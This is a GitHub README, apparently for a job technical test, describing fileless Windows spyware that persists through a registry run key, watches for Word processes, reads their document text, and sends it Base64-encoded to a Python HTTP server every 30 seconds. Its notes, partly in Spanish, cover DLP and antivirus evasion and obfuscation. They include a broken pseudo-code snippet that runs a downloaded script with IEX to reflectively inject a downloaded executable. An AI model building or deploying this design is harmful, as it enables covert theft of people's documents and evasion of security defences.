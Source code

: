 # winwordexfil

Novartis technical test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.
    
 


cuando dropeas: haces persistencia, lanzas watcher

haces persistencia (a nivel usuario) que es una entrada en el registro para que se ejecute al inicio de sesión 

pendiente -> watcher para ver cuando se abre el world

exfiltrar el contenido de los documentos abiertos --> basic dlp evasion encoding in base64. more advanced techniques like adding cypher.

https://community.spiceworks.com/how_to/163884-getting-data-from-a-word-document-using-powershell

https://medium.com/@riffsandhacks/data-exfiltration-bypassing-a-misconfigured-dlp-to-exfiltrate-sensitive-data-1236989c76c1

https://stackoverflow.com/questions/52074362/how-to-connect-powershell-script-to-an-already-opened-document




## Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.

![](./img/get-request.png)

When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.

![](./img/post-request.png)

![](./img/server-file.png)

![](./img/open-file.png)

## Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks.

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

The PowerShell code is not obfuscated in any way making easier the comprehension of the reader. A useful tool to do that is for example <https://github.com/danielbohannon/Invoke-Obfuscation>





in order to create a better malware or wanted to use other techniques reflectivePEInjection can be used



IEX((New-Object System).DowloadString powershell infoKe-ReflectivePEInjection.ps1)
$b = downloadstring(executable.bin)
$c system.convert::frombase64string($b)
Invoke-ReflectivePEInjection -PEBytes $c   /indicanto el proceso al que quieres ir



process dll injection to hook windows api call 



Microsoft MSHTML Remote Code Execution Vulnerability